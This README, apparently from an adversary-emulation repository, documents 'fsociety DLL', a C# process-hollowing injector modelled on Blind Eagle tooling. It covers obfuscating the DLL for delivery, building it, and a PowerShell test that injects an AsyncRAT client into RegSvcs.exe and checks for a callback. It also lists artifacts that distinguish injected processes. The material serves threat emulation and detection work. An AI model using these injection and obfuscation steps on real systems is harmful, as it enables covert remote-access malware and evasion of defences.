







# fsociety DLL

## Overview

fsociety DLL is an injector that Blind Eagle has used in operations<sup>[1](https://blogs.blackberry.com/en/2023/02/blind-eagle-apt-c-36-targets-colombia),[2](https://lab52.io/blog/apt-c-36-from-njrat-to-apt-c-36/)</sup>. fsociety is a single program written in C# that leverages process hollowing to inject a payload into another program - usually RegSvcs.exe or RegAsm.exe. The original source code has been rewritten in a de-obfuscated fasion for readability<sup>[3](https://otx.alienvault.com/indicator/file/03b7d19202f596fe4dc556b7da818f0f76195912e29d728b14863dda7b91d9b5)</sup>. The de-obfuscated code shares many similarities with the [Lime-Crypter](https://github.com/NYAN-x-CAT/Lime-Crypter/blob/master/Lime-Crypter/Resources/Stub.cs) implementation of RunPE, however the threat actor has added some wrappers for windows APIs in addition to importing them.

## Usage

fsociety is downloaded and ran by `fiber.dll` as part of the infection chain. prior to running, `fsociety.dll` is manipulated by the threat actor to be base64 encoded, have all `A`s replaced with a Unicode string, and then reversed. The utility `file-ops.py` has been created in the Util folder to assist in replicating the obfuscation of the binary for delivery.

Windows:
```PowerShell
py.exe ./file-ops.py -f path\to\repo\birdsofprey\Resources\Efsociety\Efsociety\bin\Release\Efsociety.dll
```

Linux/Mac:
```bash
python3 ./file-ops.py -f path/to/repobirdsofprey/Resources/Efsociety/Efsociety/bin/Release/Efsociety.dll
```

## Troubleshooting

Sometimes injection does not work on the first try and an implant will not succeed. If this happens verify that the target path exists: `C:\Windows\Microsoft.NET\Framework\v4.0.3819\RegSvcs.exe` and that the PE being injected is set up in the proper format with `file-ops.py`

## Testing

To verify that `fsociety.dll` is injecting properly it can be tested from a PowerShell prompt with either an AsyncRAT payload OR another payload of your choosing. To do this first follow the instructions in [AsyncRAT README](../../AsyncRAT-C%23/README.md) to build the server and create a client with instructions in [AsyncRAT Client README](../../AsyncRAT-C%23/Client/README.MD).

Once the server is running you can use the following PowerShell to test `fsociety.dll` filling in the paths with ones specific to your system:

```PowerShell
 $assembly = [Reflection.Assembly]::LoadFile("c:\path\to\repo\birdsofprey\Resources\Efsociety\Efsociety\bin\Release\Efsociety.dll")
 $bytes = [System.IO.File]::ReadAllBytes("c:\path\to\payload\AsyncRAT-Client.exe")
 [fsociety.Tools]::Ande("C:\\Windows\\Microsoft.NET\\Framework\\v4.0.30319\\RegSvcs.exe", $bytes)
```

If successful you should receive a callback from the AsyncRAT client on the server and when hovering the mouse over the client see that the Path values is `C:\Windows\Microsoft.NET\Framwork\v4.0.3819\RegSvcs.exe` indicating that AsyncClient is living in the legitimate RegSvcs.exe process:


Likewise a tool such as Process Hacker will show the AsyncClient assembly loaded into RegSvcs.exe with the path showing the path to RegSvcs.exe:



Likewise if you look at the modules and method tables associated with the legitimate RegSvcs.exe and the injected RegSvcs.exe you can spot many differences - including the Image Size and Resource Tables information. The method tables are completely different for the injected RegSvcs.exe vs the legitimate version

Normal RegSvcs.exe modules



Injected RegSvcs.exe modules



Normal RegSvcs.exe Method Table



Injected RegSvcs.exe Method Table


## Build

Two build options are presented. The CLI can be used with devenv.exe to build the `fsociety.sln` solution. Also instructions for the Visual Studio GUI are also included:

### CLI

```PowerShell
PS C:\<path>\<to>\birdsofprey\Resources\Efsociety> 'C:\Program Files | [x86]\Microsoft Visual Studio\<version>\<Professional|blank>\Common7\IDE\devenv.exe' fsociety.sln /Build "Release"
```

### GUI

1) Open Solution in Visual Studio - this option is presented upon Visual Studio opening

    

    

2) In the menu bar near the top of the window, change the dropdown from Debug to Release - this will build and remove any debugging assistance from the project:

    

3) In the menu bar at the top of the window, select Build -> Build Solution. The completed executables will be located in `birdsofprey\Resources\Efsociety\bin\Release`

    

## References and CTI

1) https://blogs.blackberry.com/en/2023/02/blind-eagle-apt-c-36-targets-colombia

2) https://lab52.io/blog/apt-c-36-from-njrat-to-apt-c-36/

3) https://otx.alienvault.com/indicator/file/03b7d19202f596fe4dc556b7da818f0f76195912e29d728b14863dda7b91d9b5
